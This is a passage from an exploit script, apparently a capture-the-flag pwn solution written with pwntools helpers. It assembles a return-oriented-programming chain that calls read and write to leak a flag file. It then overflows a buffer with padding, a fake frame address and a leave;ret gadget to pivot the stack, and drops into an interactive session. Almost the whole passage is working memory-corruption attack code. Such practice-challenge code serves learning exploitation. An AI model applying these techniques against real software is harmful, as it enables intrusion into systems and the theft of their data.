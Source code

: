 	ROP_chain += p64(pop_rdx_ret)
	ROP_chain += p64(0x40)
	ROP_chain += p64(libc_base+libc.symbols['read'])
	#write(1,flag_addr,0x40)
	ROP_chain += p64(pop_rdi_ret)
	ROP_chain += p64(1)
	ROP_chain += p64(pop_rsi_ret)
	ROP_chain += p64(flag_addr)
	ROP_chain += p64(pop_rdx_ret)
	ROP_chain += p64(0x40)
	ROP_chain += p64(libc_base+libc.symbols['write'])
	
	add(4,4,ROP_chain)
	
	#dbg()
	
	leave_ret = libc_base + 0x0000000000058373
	ru('Your input: ')
	sl('666')
	ru('What do you want to say?')
	#栈迁移
	sl('A'*0x80 + p64(file_name_addr) + p64(leave_ret))
	
	#dbg()
	itr()

